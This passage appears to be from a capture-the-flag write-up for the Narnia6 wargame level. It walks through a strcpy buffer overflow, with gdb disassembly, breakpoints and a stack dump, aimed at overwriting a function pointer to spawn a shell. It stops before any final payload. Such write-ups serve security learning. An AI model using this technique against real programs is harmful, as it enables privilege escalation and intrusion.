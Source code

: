 Okay, from what I understand here, the program clears env, and all `argv` arguments except `argv[0]`, `argv[1]` and `argv[2]`. Then, it copies argv[1] and argv[2] into b1 and b2 without checking for input length. This is good for us because it opens a path for a buffer overflow.

The program also defines a function pointer `fp` that points to `puts`. That's why b1 string is printed out. Our goal here is to overwrite the function pointer to point into another function, and make this function exec a shell. 

let's fire up gdb and have a look.

```ruby
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
<code snipped>
0x080492dd <+234>: call   0x8049070 <strcpy@plt>
0x080492e2 <+239>: add    esp,0x8
0x080492e5 <+242>: mov    eax,DWORD PTR [ebp+0xc]
0x080492e8 <+245>: add    eax,0x8
0x080492eb <+248>: mov    eax,DWORD PTR [eax]
0x080492ed <+250>: push   eax
0x080492ee <+251>: lea    eax,[ebp-0x1c]
0x080492f1 <+254>: push   eax
0x080492f2 <+255>: call   0x8049070 <strcpy@plt>
0x080492f7 <+260>: add    esp,0x8                    ;break #1
0x080492fa <+263>: mov    eax,DWORD PTR [ebp-0xc]
<code snipped>
0x0804932d <+314>: push   eax
0x0804932e <+315>: mov    eax,DWORD PTR [ebp-0xc]
0x08049331 <+318>: call   eax.                       ;break #2
<code snipped>
```

There are 2 places i would like to break. The first, is right after the second strcpy. At this breakpoint we will see the stack layout and where each string will be located at.
The second breakpoint will show us what `EAX` holds before getting called.

```ruby
(gdb) b *main+260
Breakpoint 1 at 0x80492f7
(gdb) b *main+318
Breakpoint 2 at 0x8049331
```

Starting with a simple input, let's enter 8 A's and 8 B's into the program.

```ruby
(gdb) r AAAAAAAA BBBBBBBB
Starting program: /narnia/narnia6 AAAAAAAA BBBBBBBB
Breakpoint 1, 0x080492f7 in main ()
(gdb) x/30xw $esp
0xffffd574: 0xffffd57c 0xffffd7b7 0x42424242 0x42424242
0xffffd584: 0x41414100 0x41414141 0x08049000 0x00000003
0xffffd594: 0xf7e2a000 0xf7ffd020 0xf7c21519 0x00000003
0xffffd5a4: 0xffffd654 0xffffd664 0xffffd5c0 0xf7e2a000
0xffffd5b4: 0x080491f3 0x00000003 0xffffd654 0xf7e2a000
0xffffd5c4: 0xffffd654 0xf7ffcb80 0xf7ffd020 0x9c9ef27b
0xffffd5d4: 0xe71c186b 0x00000000 0x00000000 0x00000000
0xffffd5e4: 0xf7ffcb80 0xf7ffd020
```
